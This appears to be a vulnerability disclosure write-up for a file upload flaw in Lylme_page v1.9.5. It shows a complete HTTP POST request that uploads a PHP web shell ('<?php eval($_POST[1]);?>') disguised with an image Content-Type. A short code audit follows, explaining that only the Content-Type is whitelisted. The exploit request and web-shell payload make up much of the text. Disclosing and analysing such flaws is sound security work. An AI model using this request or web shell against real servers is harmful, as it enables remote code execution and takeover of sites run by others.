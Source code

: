 Lylme_pagev1.9.5 has a file upload vulnerability in the front-end of the website.

In the/apply/index.php directory, grab packages uploaded from website icons

![image-20240506161607812](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161607812.png)

And construct it accordingly

```
POST /include/file.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Origin: http://127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
Cookie: X8Kk_2132_logintime=1713010988; X8Kk_2132_saltkey=sb50OXyE; X8Kk_2132_lastvisit=1713007324; XDEBUG_SESSION=PHPSTORM; admin_hkcms_lang=zh-cn; index_hkcms_lang=zh-cn; HKCMSSESSID=e0594fc037c66b2dcc477b032c98de35; PHPSESSID=jbl3he9k1riq937d993fc7luhi; admin_token=32cffj4RQkD5uVfTy3J25h8COeBWUDMFyPZMgE%2BSw2eAI1O%2FgJsuTSHq0vIvSxsREnWeNg59eXDvZU%2F6gdzPT3acrQ
Content-Type: multipart/form-data; boundary=---------------------------207262699182048909098055515
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Referer: http://127.0.0.1/apply/
Content-Length: 237

-----------------------------207262699182048909098055515
Content-Disposition: form-data; name="file"; filename="mm.php"
Content-Type: image/png

<?php eval($_POST[1]);?>
-----------------------------207262699182048909098055515--

```

![image-20240506161508365](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161508365.png)

Access and exploit this vulnerability

![image-20240506161502190](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161502190.png)

Code Audit

Image upload code /include/file.php

![image-20240517220138586](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240517220138586.png)

line 102, validate'file_type will be called to verify the file type (Content Type).

![image-20240517220147546](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240517220147546.png)

Extract the file extension in lines 105 and 106, concatenate the file name in line 110, and return information such as the path of the image. Therefore, as long as the Content Type type is on this whitelist, any file can be uploaded.
